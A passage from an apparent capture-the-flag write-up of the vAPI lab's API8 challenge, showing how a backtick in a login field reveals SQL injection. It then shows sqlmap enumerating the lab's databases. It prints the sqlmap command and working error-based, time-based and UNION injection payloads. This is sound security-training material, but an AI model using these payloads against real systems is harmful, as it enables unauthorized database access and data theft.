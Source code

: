 Awesome, a `500` error which indicates MySQL server is failing to sanitize the input. This was as simple as the triggering `POST` request contained a "**`**" in the username field.

![API8 500](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/a590ea55-0e5c-46c8-a8ff-3d9bdc4e14d4)

```
{"errorInfo":["42000",1064,"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'GangGreenTemperTatum' limit 1' at line 1"]}
```

My usual pivot and go-to for SQL injection is the phenomenal [SQLMap](https://github.com/sqlmapproject/sqlmap) project, which I first used to enumerate the underlying databases:

`python3 sqlmap.py -u http://127.0.0.1/vapi/api8/user/login --data="username=u&password=p" -p username --dbs`

![SQLMAP1](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/7b7a7058-5f4b-470e-a84f-6fd60249b97a)

![SQLMAP2](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/becf7bd3-d71b-4165-8d74-36b0fd9d2bc8)

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 977 HTTP(s) requests:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=u' AND GTID_SUBSET(CONCAT(0x716b6a6a71,(SELECT (ELT(9902=9902,1))),0x716a716b71),9902)-- jGXi&password=p

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=u' AND (SELECT 7748 FROM (SELECT(SLEEP(5)))VfZm)-- MRsL&password=p

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: username=u' UNION ALL SELECT NULL,CONCAT(0x716b6a6a71,0x6f44516750507978646f7a435267424765526471635356524f456d615566766f6467706653486259,0x716a716b71)#&password=p
---
[11:04:06] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.6
[11:04:10] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] vapi

[11:04:10] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 682 times, 500 (Internal Server Error) - 284 times
[11:04:10] [INFO] fetched data logged to text files under '/Users/adam/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 11:04:10 /2023-08-20/

```
